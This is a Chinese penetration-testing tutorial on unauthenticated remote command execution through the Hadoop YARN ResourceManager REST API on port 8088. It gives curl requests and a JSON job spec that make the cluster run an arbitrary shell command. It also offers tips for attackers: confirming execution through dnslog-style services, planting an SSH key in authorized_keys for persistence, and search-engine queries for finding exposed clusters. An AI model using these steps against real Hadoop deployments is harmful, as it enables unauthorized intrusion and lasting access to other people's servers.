







渗透技巧-Hadoop命令执行
0X00 Hadoop介绍和漏洞原理
Hadoop是一个由Apache的分布式系统基础架构，用户可开发分布式程序，充分利用集群的威力进行高速运算和存储，实现了一个分布式文件系统（Hadoop Distributed File System）。
其中HDFS组件有高容错性的特点，并且部署在低廉的（low-cost）硬件上即可提供高吞吐量（high throughput）来访问应用程序的数据。
Apache Yarn（Yet Another Resource Negotiator的缩写）是hadoop集群资源管理器系统，Yarn从hadoop 2引入，最初是为了改善MapReduce的实现，但是它具有通用性，同样执行其他分布式计算模式。
ApplicationMaster负责与scheduler协商合适的container，跟踪应用程序的状态，以及监控它们的进度，ApplicationMaster是协调集群中应用程序执行的进程。每个应用程序都有自己的ApplicationMaster，负责与ResourceManager协商资源（container）和NodeManager协同工作来执行和监控任务 。
当一个ApplicationMaster启动后，会周期性的向resourcemanager发送心跳报告来确认其健康和所需的资源情况，在建好的需求模型中，ApplicationMaster在发往resourcemanager中的心跳信息中封装偏好和限制，在随后的心跳中，ApplicationMaster会对收到集群中特定节点上绑定了一定的资源的container的租约，根据Resourcemanager发来的container，ApplicationMaster可以更新它的执行计划以适应资源不足或者过剩，container可以动态的分配和释放资源。
与job相关的命令：
1.查看 Job 信息：hadoop job -list2.杀掉 Job：hadoop job –kill job_id3.更多细节：hadoop job -history all output-dir4.杀死任务。被杀死的任务不会不利于失败尝试：hadoop jab -kill-task <task-id>5.使任务失败。被失败的任务会对失败尝试不利：hadoop job -fail-task <task-id>
YARN命令：
YARN命令是调用bin/yarn脚本文件，如果运行yarn脚本没有带任何参数，则会打印yarn所有命令的描述。
使用: yarn [--config confdir] COMMAND [--loglevel loglevel] [GENERIC_OPTIONS] [COMMAND_OPTIONS]application使用: yarn application [options]
运行jar文件
用户可以将写好的YARN代码打包成jar文件，用这个命令去运行它：
yarn jar <jar> [mainClass] args...0X01 RCE实现
使用ROOT权限启动的Hadoop服务可根据在服务器8088端口接收用户提交的POST数据，根据其中参数执行相关job，具体实现如下：
8088端口的Applications manager：

1.申请新的application，直接通过curl进行POST请求：
curl -v -X POST 'http://ip:8088/ws/v1/cluster/apps/new-application'返回内容类似于：
{"application-id":"application_1527144634877_20465","maximum-resource-capability":{"memory":16384,"vCores":8}}2.构造并提交任务
构造json文件1.json，内容如下，其中application-id对应上面得到的id，命令内容为尝试在/var/tmp目录下创建test_1文件，内容也为111：
{"am-container-spec":{"commands":{"command":"echo '111' >> /var/tmp/test_1"}},"application-id":"application_1527144634877_20465","application-name":"test","application-type":"YARN"}
然后直接使用curl发送数据：
curl -s -i -X POST -H 'Accept: application/json' -H 'Content-Type: application/json' http://ip:8088/ws/v1/cluster/apps --data-binary @1.json即可完成攻击，命令被执行，在相应目录下可以看到生成了对应文件，在8088端口Web界面可看到相关信息：

技巧：可配合ceye、dnslog测试命令执行结果。
0X02 注意事项
技巧：
1.可配合ceye以及
dnslog测试命令执行结果，或在/home/user/.ssh/authorized_keys中写入公钥。
2.搜索开放服务：title="All Applications"

或者port=50070

但此方式有三点限制：
1.是服务需管理员权限启动，执行命令也是管理员权限执行，普通用户五相关命令权限只会有失败记录，命令最终执行失败，留下难以删除的攻击记录。

2.是Hadoop的8088管理端口若使用了权限认证，会提示
AuthorizationException："message":"Unable to obtain user name, user not authenticated
3.是master+slave节点数大于等于2，job任务会根据hadoop分布式机制提交到任一台节点处理，目前笔者还未找到指定namenode的方法。


点赞 在看 转发